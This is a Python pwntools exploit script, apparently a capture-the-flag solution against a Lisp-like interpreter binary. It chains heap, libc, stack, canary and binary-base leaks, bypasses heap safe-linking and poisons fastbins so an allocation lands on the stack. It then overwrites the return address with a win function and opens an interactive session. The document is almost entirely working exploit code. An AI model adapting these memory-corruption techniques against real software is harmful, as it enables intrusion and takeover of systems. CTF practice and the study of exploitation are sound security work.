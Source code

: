 ```python
info(f"heap_leak: {hex(heap_leak)}")

# Do a bunch of random allocations so there are libc addresses on the heap.
for i in range(20):
    payload = f'"{"C" * 200}" '
    payload = f'(+ {payload * 3} "A")'
    io.sendlineafter(b"<<< ", payload.encode())

# This is done so the string sizes are overwritten for leaking after this.
io.sendlineafter(b"<<< ", f'(+ "@@@@@@@@" "@@@@@@@@" "@@@@@@@@")'.encode())

# Get all the leaks.
io.sendlineafter(b"<<< ", f'(+ "@" {heap_leak+3416})'.encode())
io.recv(1)
libc_leak = u64(io.recv(6).ljust(8, b"\x00"))
info(f"libc_leak: {hex(libc_leak)}")
libc.address = libc_leak - 2206944

io.sendlineafter(b"<<< ", f'(+ "@" {libc.sym["__environ"]})'.encode())
io.recv(1)
stack_leak = u64(io.recv(6).ljust(8, b"\x00"))
info(f"stack_leak: {hex(stack_leak)}")

io.sendlineafter(b"<<< ", f'(+ "@" {stack_leak-144+1})'.encode())
io.recv(1)
stack_canary = u64(io.recv(7).rjust(8, b"\x00"))
info(f"stack_canary: {hex(stack_canary)}")

io.sendlineafter(b"<<< ", f'(+ "@" {stack_leak-112})'.encode())
io.recv(1)
bin_leak = u64(io.recv(6).ljust(8, b"\x00"))
info(f"bin_leak: {hex(bin_leak)}")
exe.address=bin_leak-19776

io.sendlineafter(b"<<< ", f'(+ "@" {heap_leak+7208})'.encode())
io.recv(1)
heap_key = u64(io.recv(8).ljust(8, b"\x00"))
info(f"heap_key: {hex(heap_key)}")

# Corrupt 0x20 fastbins inside of the heap so fwd ptr points to the stack.
stack_xor = (stack_leak-10392-16) >> 12
payload = b"##\x00" + p64(0)*2 + p64(0x21) + \
    p64((stack_leak-10392-16)^heap_leak>>12)
io.sendlineafter(b"<<< ", b'"BEG ' + payload + b'"')

# Spray the stack with p64(0x21) values so ptmalloc wont complain about
# corrupted size. The overwritten fastbin points to a place on the stack
# where there are the 0x21 values.
io.sendlineafter(b"<<< ", b'"aaabbbb' + p64(0x21) * (1000) + b'"')
# Corrupt the stack. yay!
io.sendlineafter(b"<<< ", b'"AAAA" "AAAA\x00BB' + p64(stack_canary) * 2 + \
                 p64(exe.sym['you_should_be_able_to_solve_this']+1) + b'"')

io.interactive()
```
